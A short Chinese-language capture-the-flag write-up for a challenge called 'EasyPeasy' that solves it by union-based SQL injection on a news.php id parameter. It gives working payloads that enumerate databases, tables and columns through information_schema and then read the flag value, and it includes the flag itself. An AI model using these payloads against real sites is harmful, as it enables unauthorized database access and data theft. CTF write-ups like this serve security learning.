 # EasyPeasy [50]

用 union 進行的 SQL injection，網址點開後如下
```
http://xxx/news.php?id=1
```
id 的參數改一改後會出現不同的內容，顯然是一個從資料庫撈資料的動作。是一個可以利用的 injection 點。

首先要先搜尋資料會在那一個資料庫。information\_schema 是MySQL 用來紀錄所有資料庫名稱的資料庫。
用以下方式可以重資料庫中撈名稱，改limit的值可以依序查看
```
id=-1 union select 1,2,schema_name from information_schema.schemata limit 1,1
```
像取 limit 0,1 會拿到第一項(information\_schema)，limit 1,1 則是第二項名稱為 fl4g。

之後在fl4g這個資料庫中要找哪個 table 紀錄了我們要找的資料，information\_schema.tables 紀錄了所有 table 的資訊。
```
id=-1 union select 1,2,table_name from information_schema.tables WHERE table_schema='fl4g' limit 0,1
```

剛好裡面只有一個 table 叫做 secret 。之後對 secret 做欄位名稱的搜尋。
```
id=-1 union select 1,2,column_name from information_schema.columns where table_name='secret' limit 1,1
```
第二個欄位是 THIS\_IS\_FLAG\_YO 之後把它印出來就是答案了。
```
?id=-1 union select 1,2,THIS_IS_FLAG_YO from fl4g.secret
```

`FLAG{union_based_sqlinj_is_sooooooooo_easy}`

